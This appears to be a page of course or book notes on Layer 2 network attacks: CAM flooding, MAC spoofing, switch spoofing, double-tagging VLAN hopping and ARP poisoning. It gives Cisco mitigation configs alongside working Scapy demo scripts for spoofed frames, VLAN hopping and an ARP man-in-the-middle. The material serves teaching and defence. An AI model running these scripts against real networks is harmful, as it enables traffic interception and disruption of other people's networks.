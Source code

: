 # Commands from book




Similar to a buffer overflow attack, the goal is to fill the switches table with "learned" MAC addresses and see what happens. The attacker sits on one port and generates a vast number of "spoofed" MAC entries. When the CAM table is full, all additional MACs will not be learned and will default to "open". This means that traffic without a CAM entry will be flooded out on all ports of the VLAN in question. Traffic with a CAM entry won’t be affected, but neighbor switches could be.

Depending on the switch in question, this type of attack can be mitigated.
```
switch(config)# interface fa0/10
switch(config-if)# switchport port security
switch(config-if)# switchport port security maximum 1
switch(config-if)# switchport port security violation shutdown
```






DEMO MAC Spoofing

Scapy Script to demonstrate MAC Spoofing
```
a=Ether()
a.dst="ff:ff:ff:ff:ff:ff"   #Specify any target MAC you require
a.src="01:02:03:aa:bb:cc"   #Insert your Spoofed MAC here
a.type=0x0800

b=IP()
b.proto=6               #specifies that TCP is encapsulated. Change to 1 for ICMP or 17 for UDP.
b.src="10.10.0.40"      #Any source IP
b.dst="172.16.82.106"   #Target IP

c=TCP()
c.sport=54321
c.dport=80

d="message"

sendp(a/b/c/d)
```

Switch Spoofing

In this attack, an attacking host imitates a trunking switch by crafting Dynamic Trunking Protocol (DTP) frames in order to form a trunk link with the switch. With a trunk link formed the attacker can then use tagging and trunking protocols such as ISL or 802.1q. Traffic for all VLANs is then accessible to the attacking host.
```
switch(config)# interface fastethernet 1/10
switch(config-if)# switchport mode access
switch(config-if)# switchport nonegotiate
switch(config-if)# switchport access vlan 10
switch(config)# iterface gigabit 0/1
switch(config-if)# switchport trunk encapsulation dot1q
switch(config-if)# switchport mode trunk
switch(config-if)# switchport nonegotiate
```


Double Tagging

This attack works if the attacker knows what the "native VLAN" that is used on your organization. Typically VLAN 1 is used. All VLANs will be "tagged" with its corresponding VLAN. The Native VLAN however is intended for local network communication and is not tagged. Thus anything tagged for the native VLAN will be stripped off. The attacker will insert 2 tags into their frames. The first tag will be for the Native VLAN and the second tag will be for whatever VLAN he is trying to access. Upon receipt the switch will then remove the Native VLAN tag and will leave the second VLAN tag in tact. This method also requires that the attacker and victim be separated by a trunk and a vulnerable switch.

```
switch(config)# vlan dot1q tag native
switch(config)# interface fastethernet 1/10
switch(config-if)# switchport mode access
switch(config-if)# switchport nonegotiate
switch(config-if)# switchport access vlan 10
switch(config)# iterface gigabit 0/1
switch(config-if)# switchport trunk encapsulation dot1q
switch(config-if)# switchport mode trunk
switch(config-if)# switchport nonegotiate
switch(config-if)# switchport trunk native vlan 999
```


DEMO VLAN Hopping

Scapy Script to demonstrate VLAN Hopping
```
a=Ether()
a.dst="ff:ff:ff:ff:ff:ff"
a.src="01:02:03:aa:bb:cc"
a.type=0x8100           #VLAN Tag will Follow

b=Dot1Q()
b.vlan=1                #Insert the network's Native VLAN number
b.type=0x8100           #Another VLAN Tag will Follow

c=Dot1Q()
c.vlan=20               #Target VLAN
c.type=0x0800           #IPv4 or any other Ethertype that is encapsulated

d=IP()
d.proto=6               #specifies that TCP is encapsulated. Change to 1 for ICMP or 17 for UDP.
d.src="10.10.0.40"      #Any source IP
d.dst="172.16.82.106"   #Target IP

e=TCP()
e.sport=54321
e.dport=80

f="message"

a.show()
b.show()
c.show()
d.show()
e.show()

sendp(a/b/c/d/e/f)
```

ARP Cache - is a collection of Layer 2 to Layer 3 address mappings discovered utilizing the ARP request/response process. When a host needs to send a packet both the L2 and L3 addresses are needed. The host will look in this table to determine if it already knows both the L2 and L3 addresses. If the target is not in the table then a ARP request is initiated. The ARP cache can be populated statically but mostly its done dynamically. This cache can be exploited by attackers with the aim to poison the cache with incorrect information to either perform a DoS or MitM.
```
arp -a
ip neighbor
```

Demonstrate man-in-the-middle (MitM) with ARP


DEMO ARP MitM attack
```
my_mac = ""             #Insert Your MAC address
victim1_mac = ""        #Insert victim1 MAC address
victim1_ip = ""         #Insert victim1 IP address
victim2_mac = ""        #Insert victim2 MAC address
victim2_ip = ""         #Insert victim2 IP addres

# -- ARP to Poison Victim 1 to pretend to be Victim 2 --
a = Ether()
a.src= my_mac
a.dst= victim1_mac
a.type= 0x0806

b = ARP()
b.op= 2
b.hwsrc= my_mac
b.psrc= victim2_ip    #Who you are pretending to be
b.hwdst= victim1_mac  #Who's ARP cache you are trying to poison
b.pdst= victim1_ip    #Who's ARP cache you are trying to poison

# -- ARP to Poison Victim 2 to pretend to be Victim 1 --
c = Ether()
c.src= my_mac
c.dst= victim2_mac
c.type= 0x0806

d = ARP()
d.op= 2
d.hwsrc= my_mac
d.psrc= victim1_ip    #Who you are pretending to be
d.hwdst= victim2_mac  #Who's ARP cache you are trying to poison
d.pdst= victim2_ip    #Who's ARP cache you are trying to poison

a.show()
b.show()
c.show()
d.show()

sendp(a/b); sendp(c/d)
```





















